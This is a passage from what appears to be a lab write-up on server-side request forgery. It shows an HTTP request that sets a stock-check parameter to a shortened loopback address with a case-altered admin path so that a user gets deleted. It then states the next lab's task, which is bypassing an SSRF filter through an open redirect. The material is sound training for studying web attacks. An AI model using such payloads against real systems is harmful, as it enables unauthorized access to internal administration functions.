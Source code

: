 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=http://127.1/ADMIN/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/32fa70dc3e1e028845726f3ca907aa5f.png)

04 SSRF with filter bypass via open redirection vulnerability
=============================================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at
http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so
you will need to find an open redirect affecting the application first.

Reference: https://portswigger.net/web-security/ssrf
